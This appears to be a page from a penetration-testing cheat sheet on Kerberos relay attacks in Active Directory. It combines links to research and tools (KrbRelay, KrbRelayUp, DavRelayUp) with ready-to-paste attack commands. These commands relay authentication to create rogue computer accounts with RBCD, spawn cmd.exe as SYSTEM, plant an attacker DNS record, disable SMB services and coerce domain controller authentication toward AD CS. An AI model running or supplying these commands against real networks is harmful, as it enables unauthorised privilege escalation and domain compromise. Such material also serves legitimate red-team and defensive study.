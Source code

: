 # Kerberos Relay

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)




## mitm6 + Kerberos DNS Relay + AD CS ESC8

- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)




## Tools



### KrbRelay

- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)



### KrbRelayUp

- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)
- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)
- [https://github.com/Dec0ne/DavRelayUp](https://github.com/Dec0ne/DavRelayUp)


#### RELAY

Relay authentication to LDAP(S) with automatic machine creation and configure RBCD:

```
PS > .\KrbRelayUp.exe RELAY [-d|--Domain megacorp.local] [-dc|--DomainController DC01.megacorp.local] [-m|--Method RBCD] -c|--CreateNewComputerAccount [-cn|--ComputerName FAKEMACHINE$] [-cp|--ComputerPassword Passw0rd!]
```

Perform RBCD with UPNs:

```
PS > .\KrbRelayUp.exe RELAY -u2u -cn j.doe -cp Passw0rd!
```

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd.md#rbcd-with-upns" %}
[rbcd.md](rbcd.md)
{% endcontent-ref %}


#### SPAWN

Execute a command as NT AUTHORITY\\SYSTEM via RBCD abuse:

```
PS > .\KrbRelayUp.exe SPAWN [-m|--Method RBCD] [-i|--Impersonate administrator] [-s|ServiceName PwnSVC] [-sc|--ServiceCommand C:\Windows\System32\cmd.exe] -cn|--ComputerName FAKEMACHINE$ -cp|--ComputerPassword Passw0rd! [or -ch|--ComputerPasswordHash fc525c9683e8fe067095ba2ddc971889]
```

{% hint style="warning" %}
As [@ShitSecure](https://twitter.com/ShitSecure) mentioned, executing the binary as a .NET Reflective Assembly from PowerShell will fail because the PowerShell process will have already initialized the security parameters for COM itself after having been launched, so `CoInitializeSecurity` will not contain those new parameters attempted to set by KrbRelay(Up).
{% endhint %}



### KrbRelay-SMBServer

- [https://github.com/decoder-it/KrbRelay-SMBServer](https://github.com/decoder-it/KrbRelay-SMBServer)

```
PS > Invoke-DNSUpdate -DNSName adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -DNSData 10.10.13.37
PS > Set-Service -Name LanmanServer -StartupType Disabled; Stop-Service -Name LanmanServer -Force; Stop-Service -Name srv2 -Force; Stop-Service -Name srvnet -Force
PS > Set-Service -Name LanmanServer -StartupType Automatic; Start-Service -Name LanmanServer; Start-Service -Name srv2; Start-Service -Name srvnet
PS > .\KrbRelay.exe -spn HTTP/ADCS.megacorp.local -redirecthost adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv -adcs DomainController -listenerport 445
$ dfscoerce.py -d megacorp.local -u snovvcrash -k -no-pass adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
```
